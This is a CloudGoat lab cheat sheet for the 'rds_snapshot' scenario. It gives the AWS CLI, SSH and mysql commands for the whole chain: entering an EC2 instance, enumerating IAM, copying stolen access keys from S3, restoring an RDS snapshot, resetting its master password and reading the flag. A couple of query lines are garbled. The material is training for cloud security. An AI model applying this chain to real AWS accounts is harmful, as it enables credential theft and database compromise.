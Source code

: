 ## Cheat Sheet


An attacker can gain access to a hijacked EC2 instance.


`cd RDS_Snapshot_cgid528tilly5h`


`ssh ec2-user@54.242.220.178 -i ./cloudgoat`


```
[ubuntu@ip-172-31-20-221 ~]$
```


An attacker can list AWS credentials on the server (enumirate)


`aws sts get-caller-identity`


The attacker can check the permissions for the roles granted on EC2.


```
#Check the instance profiles
aws iam list-instance-profiles

aws iam list-role-policies --role-name cg-ec2-admin-role

aws iam get-role-policy --role-name cg-ec2-admin-role --policy-name cg-ec2-admin-policy
```


The attacker sees that S3 is accessible and steals the credentials.
```
aws s3 ls

aws s3 cp s3://cloudgoat/access_keys.txt .
```
The attacker accesses the stolen credentials.
```
aws configure --profile david
```
The attacker checks the permissions of the stolen credentials.
```
aws iam get-user --profile david


aws iam list-user-policies --user-name cg-rds-instance-user-RDS_Snapshot_cgidy7ybygks75 --profile david


aws iam get-user-policy --user-name cg-rds-instance-user-RDS_Snapshot_cgidy7ybygks75 --policy-name cg-david-policy --profile david


# The attacker verifies that he has RDS-related privileges
```

The attacker restores the RDS snapshot.

```
#Verify the information in the RDS snapshot
aws rds describe-db-instances --profile david

aws rds describe-db-snapshots --db-instance-identifier cg-rds


#Restore the RDS snapshot
aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier attack-rds \
    --db-snapshot-identifier cg-rds-snapshot \
    --db-subnet-group-name cg-db-subnet-group \
    --vpc-security-group-ids sg-xxxxxxxxxxxxxxxxx \
    --profile david


#Wait for a new instance to be created


#Modify the RDS instance password
aws rds modify-db-instance \
    --db-instance-identifier attack-rds \
    --master-user-password attack1234! \
    --apply-immediately \
    --profile david


#Verify the master username
aws rds describe-db-instances --db-instance-identifier attack-rds --query \ "DBInstances[.1].1
"DBInstances[].MasterUsername" --profile david


#Determine the MySQL endpoint address
aws rds describe-db-instances --db-instance-identifier attack-rds --query \ "DBInstances[.
"DBInstances[].Endpoint.Address" --profile david


```


The attacker accesses the restored DB and hijacks the FLAG.
```
mysql -h attack-rds.cxxxxxxxxxxx.us-east-1.rds.amazonaws.com -P 3306 -u cgadmin -pattack1234!
show databases;
use mydatabase;
show tables;
select * from flag;
```
# Caveats
At the end of the scenario, the instance created by the Restore job is not deleted by ./cloudgoat.py destroy rds_snapshot. You need to delete it manually.
